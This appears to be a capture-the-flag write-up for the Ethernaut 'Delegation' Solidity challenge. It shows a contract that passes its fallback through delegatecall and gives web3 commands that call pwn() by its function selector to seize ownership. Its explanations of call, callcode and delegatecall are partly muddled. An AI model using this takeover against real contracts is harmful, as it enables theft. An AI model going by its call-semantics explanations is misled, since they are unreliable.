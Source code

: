 # Delegation

```javascript
pragma solidity ^0.4.18;

contract Delegate {

  address public owner;

  function Delegate(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

From Solidity document:
* `<address>.call(bytes memory) returns (bool, bytes memory)`:
issue low-level **CALL** with the given payload, returns success condition and return data, forwards all available gas, adjustable.
* `<address>.delegatecall(bytes memory) returns (bool, bytes memory)`:
issue low-level **DELEGATECALL** with the given payload, returns success condition and return data, forwards all available gas, adjustable.

I think that is not that clear, here I summary all three call in Solidity:

* call()
    This one will call target function, and move all exec env to callee contract, if there's any valuable declaired in same name, callee contract's valuable will take charge. 
* callcode()
    This one will call target function, and move all target function in callee to caller's env, if there's any valuable declaired in same name, caller contract's valuable will take charge. `msg.sender` in `callcode()` will always be caller's address.
* delegatecall()
    Same as `callcode()`, but `msg.sender` in `delegatecall()` will always be first one `delegatecall()` caller's address. 
    
Therefore, if `Delegation` use `callcode()` in its fallback function, when it call its `Delegate` instance, `Delegate` will get `Delegation`'s address as `msg.sender`.

However, if `Delegation` use `delegatecall()` in its fallback function just like current state, when `ddelegatecall()` call `Delegate`, there will be `Delegation`'s caller's address, you, in `msg.sender`.

Before we start use `delegatecall()` to call `Delegation`'s `Delegate`'s `pwn()` function, there's still a important point we should concern for it:

How to use `delegatecall()` to call function?

In Solidity, its `Contract ABI Specification` use `keccak256`, also known as `SHA3`, to encrypt the function name, then take only 4 bytes in head as map to find which one has been called.

Careful, although it take only 4 bytes, to make it as hex value, they will append after `0x`, so just slice 10 charaters.

```javascript
contract.owner()
contract.sendTransaction({data:web3.sha3("pwn()").slice(0,10)});
contract.owner()
```
or
```javascript
contract.owner()
web3.eth.sendTransaction({from:player,to:instance,data:web3.sha3("pwn()").slice(0,10),gas: 1111111},function(x,y){console.error(y)});
//The MetaMask Web3 object does not support synchronous methods like eth_sendTransaction without a fallback parameter.
contract.owner()
```
